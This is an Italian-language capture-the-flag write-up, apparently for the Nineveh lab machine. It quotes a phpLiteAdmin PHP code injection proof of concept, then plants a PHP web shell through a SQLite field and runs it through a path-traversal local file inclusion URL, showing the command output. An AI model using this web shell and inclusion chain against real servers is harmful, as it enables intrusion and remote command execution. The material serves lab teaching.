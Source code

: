 ```bash
Proof of Concept:

1. We create a db named "hack.php".
(Depending on Server configuration sometimes it will not work and the name for the db will be "hack.sqlite". Then simply try to rename the database / existing database to "hack.php".)
The script will store the sqlite database in the same directory as phpliteadmin.php.
Preview: http://goo.gl/B5n9O
Hex preview: http://goo.gl/lJ5iQ

2. Now create a new table in this database and insert a text field with the default value:
<?php phpinfo()?>
Hex preview: http://goo.gl/v7USQ

3. Now we run hack.php

Done!

Proof: http://goo.gl/ZqPVL  
```

Vediamo il contenuto dell'exploit Remote PHP Code Injection. Secondo i commenti fatti nell'exploit, un utente malintenzionato può creare un database sqlite con un'estensione php e inserire codice php come campi di testo. Al termine, l'attaccante può eseguirlo semplicemente accedendo al file del database utilizzando il browser.
Questa è esattamente la vulnerabilità che speravo di trovare! Questa vulnerabilità mi consente di rilasciare un file dannoso sul server e la vulnerabilità LFI che abbiamo riscontrato in precedenza mi consente di chiamare ed eseguire il mio file dannoso.


# GAINING AN INITIAL FOOTHOLD

Tornando all'applicazione, Nella sezione Crea nuovo database, creiamo un nuovo database chiamato hack.php. Quindi facciamo clic su hack.php nella sezione Modifica database. 
Lì, creiamo una nuova tabella chiamata random con 1 campo. 
Nel parametro Field aggiungiamo il seguente codice e modificare il tipo in TEXT.

```bash
<?php echo system($_REQUEST ["cmd"]); ?>
```

Facciamo clic su crea e vediamo che il file viene creato nella directory /var/tmp.
Ora torniamo alla vulnerabilità LFI ed eseguiamo il nostro codice php.

```bash
http://nineveh.htb/department/manage.php?notes=/ninevehNotes/../../../../var/tmp/hack.php&cmd=ls
```

Abbiamo l'esecuzione del codice! 

```
SQLite format 3@  -�
��`�tablerandomrandomCREATE TABLE 'random' ('css
files
footer.php
header.php
index.php
login.php
logout.php
manage.php
underconstruction.jpg
underconstruction.jpg' TEXT)
```
